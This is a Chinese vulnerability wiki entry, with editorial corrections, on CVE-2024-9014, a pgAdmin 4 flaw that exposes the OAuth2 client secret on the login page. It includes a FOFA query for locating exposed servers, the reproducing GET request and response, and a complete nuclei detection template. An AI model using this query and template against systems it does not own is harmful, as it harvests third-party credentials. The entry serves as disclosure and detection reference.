

# CVE-2024-9014

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：pgAdmin 4
- 文献类型：OAuth配置泄露复现与模板
- 版本、权限及部署边界：需启用OAuth2认证且配置含客户端secret；匿名login页面暴露，正文列Fedora8.9-3.fc40/8.12-1.fc41，模板称<=8.11
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 正文8.12-1受影响与模板8.11及以前冲突，可能将分发版修复包当影响版本，须核对Fedora/上游矩阵
2. 实际直接证据为OAuth客户端secret泄露，不是自动认证绕过；client ID通常公开，后续数据访问依赖授权服务器和grant配置
3. CVSS PR:L与无Cookie登录页演示不一致，应来源核验而非自行改评分
4. negative matcher仅排除精确带空格null，空串/不同空白/null格式会误报；需解析并确认非空secret
5. 官方issue/研究来源有，缺固定修复版本和泄露后secret轮换建议

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://graph.microsoft.com/oidc/userinfo>
- 原文参考链接（未重新核验）：<https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/oauth2/v2.0/authorize>
- 原文参考链接（未重新核验）：<https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/v2.0/.well-known/openid-configuration>
- 原文参考链接（未重新核验）：<https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/oauth2/v2.0/token>
- 原文参考链接（未重新核验）：<https://github.com/EQSTLab/CVE-2024-9014>
- 原文参考链接（未重新核验）：<https://github.com/pgadmin-org/pgadmin4/issues/7945>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-10-07 17:39  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
pgAdmin4 OAuth2 client ID与secret敏感信息泄漏漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
pgAdmin4  8.9-3.fc40  
  
pgAdmin4  8.12-1.fc41  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
pgAdmin4 是开源数据库 PostgreSQL 的图形管理工具。2024年互联网上披露 CVE-2024-9014 pgAdmin 4 OAuth2 client ID与secret敏感信息泄漏漏洞。攻击者可构造恶意请求获取客户端ID和密钥，从而导致未经授权访问其他用户数据。官方已发布安全更新，建议升级至最新版本。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="1502815117"
```  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
GET /login?next=/ HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11) AppleWebKit/601.1.27 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/601.1.27
Connection: close
Accept-Encoding: gzip
```  
  
响应如下  
```
HTTP/1.1 200 OK
Connection: close
Content-Security-Policy: default-src ws: http: data: blob: 'unsafe-inline' 'unsafe-eval';
Content-Type: text/html; charset=utf-8
Date: Mon, 07 Oct 2024 09:28:35 GMT
Server: gunicorn
Set-Cookie: pga4_session=363dd09a-fee5-403e-8e8f-d55680b3f182!eZ4oYiB5uSYYlK/N7KtvaLk4R1o5eKkz48mHvSualtk=; Expires=Tue, 08 Oct 2024 09:28:35 GMT; HttpOnly; Path=/; SameSite=Lax
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

<!DOCTYPE html>
...
<script type="application/javascript">
            try {
    require(
        ['security.pages'],
        function() {
            window.renderSecurityPage('login_user', {"authSources": ["oauth2", "internal"], "authSourcesEnum": {"KERBEROS": "kerberos", "OAUTH2": "oauth2"}, "csrfToken": "[REDACTED]", "forgotPassUrl": "/browser/reset_password", "langOptions": [{"label": "English", "value": "en"}, {"label": "Chinese (Simplified)", "value": "zh"}, {"label": "Czech", "value": "cs"}, {"label": "French", "value": "fr"}, {"label": "German", "value": "de"}, {"label": "Indonesian", "value": "id"}, {"label": "Italian", "value": "it"}, {"label": "Japanese", "value": "ja"}, {"label": "Korean", "value": "ko"}, {"label": "Polish", "value": "pl"}, {"label": "Portuguese (Brazilian)", "value": "pt_BR"}, {"label": "Russian", "value": "ru"}, {"label": "Spanish", "value": "es"}], "loginBanner": "", "loginUrl": "/authenticate/login", "oauth2Config": [{"OAUTH2_API_BASE_URL": "https://graph.microsoft.com/oidc/userinfo", "OAUTH2_AUTHORIZATION_URL": "https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/oauth2/v2.0/authorize", "OAUTH2_BUTTON_COLOR": "#0000ff", "OAUTH2_CLIENT_ID": "91a5b302-7076-4ab8-ae36-8ce782204f2f", "OAUTH2_CLIENT_SECRET": "[REDACTED]", "OAUTH2_DISPLAY_NAME": "Microsoft", "OAUTH2_ICON": "fa-microsoft", "OAUTH2_NAME": "microsoft", "OAUTH2_SCOPE": "openid email", "OAUTH2_SERVER_METADATA_URL": "https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/v2.0/.well-known/openid-configuration", "OAUTH2_TOKEN_URL": "https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/oauth2/v2.0/token", "OAUTH2_USERINFO_ENDPOINT": "userinfo"}], "userLanguage": "en"},
                {"messages": []});
        }, function() {
            console.log(arguments);
```  
  
其中包含敏感信息，漏洞复现完成  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-9014

info:
  name: pgAdmin 4 - Authentication Bypass
  author: s4e-io
  severity: critical
  description: |
    pgAdmin 4 versions 8.11 and earlier are vulnerable to a security flaw in OAuth2 authentication. This vulnerability allows an attacker to potentially obtain the client ID and secret, leading to unauthorized access to user data.
  reference:
    - https://github.com/EQSTLab/CVE-2024-9014
    - https://github.com/pgadmin-org/pgadmin4/issues/7945
    - https://nvd.nist.gov/vuln/detail/CVE-2024-9014
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 9.9
    cve-id: CVE-2024-9014
    cwe-id: CWE-522
    epss-score: 0.00043
    epss-percentile: 0.09595
  metadata:
    verified: true
    max-request: 1
    vendor: pgadmin-org
    product: pgadmin4
    fofa-query: "pgadmin4"
  tags: cve,cve2024,pgadmin,exposure,auth-bypass

http:
  - raw:
      - |
        GET /login?next=/ HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: regex
        part: body
        negative: true
        regex:
          - 'OAUTH2_CLIENT_SECRET": null'

      - type: word
        part: body
        words:
          - '<title>pgAdmin 4</title>'
          - 'OAUTH2_CLIENT_SECRET'
        condition: and

      - type: status
        status:
          - 200
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
